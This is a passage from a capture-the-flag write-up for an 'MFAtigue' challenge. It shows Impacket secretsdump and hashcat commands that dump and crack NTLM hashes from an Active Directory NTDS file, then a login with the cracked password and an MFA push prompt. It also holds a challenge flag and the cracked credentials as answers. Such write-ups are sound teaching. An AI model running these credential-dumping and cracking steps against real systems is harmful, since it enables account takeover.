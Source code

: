 ```
flag{35bed450ed9ac9fcb3f5f8d547873be9}
```

## MFAtigue

We got our hands on an NTDS file, and we _might_ be able to break into the Azure Admin account! Can you track it down and try to log in? They might have MFA set up though...

File: [NTDS.zip](challenge_files/NTDS.zip)

### Walkthrough

Within the Zip archive, we are given a `ntds.dit` file and a `SYSTEM` file.  Combined, we can use Impacket's `secretsdump.py` to extract the NTLM hashes for the users:

```console
$ python secretsdump.py -ntds ~/ntds.dit -system ~/SYSTEM -hashes lmhash:nthash LOCAL -outputfile ntlm-extract
```

With the outputted file `ntlm-extract.ntds`, we can use `hashcat` along with `rockyou.txt` to crack the hashes:

```console
$ hashcat -m 1000 ~/ntlm-extract.ntds /usr/share/wordlists/rockyou.txt
$ hashcat -m 1000 ~/ntlm-extract.ntds --show
```

![MFAtigue - Hashcat](/images/mfatigue_hashcat.png)

From the above, we see the hash `08e75cc7ee80ff06f77c3e54cadab42a` decodes to password `katlyn99`. From the output file `ntlm-extract.ntds`, we can see this hash belongs to user `huntressctf.local\JILLIAN_DOTSON`:

``` console
$ cat ntlm-extract.ntds | grep '08e75cc7ee80ff06f77c3e54cadab42a'
```

![MFATigue - User Hash](/images/mfatigue_user_hash.png)

With this, we can login as the user:

![MFAtigue - Homepage](mfatigue_homepage.png)

At this point, we are asked to send a push notification to the user's mobile device, prompting them to sign in.
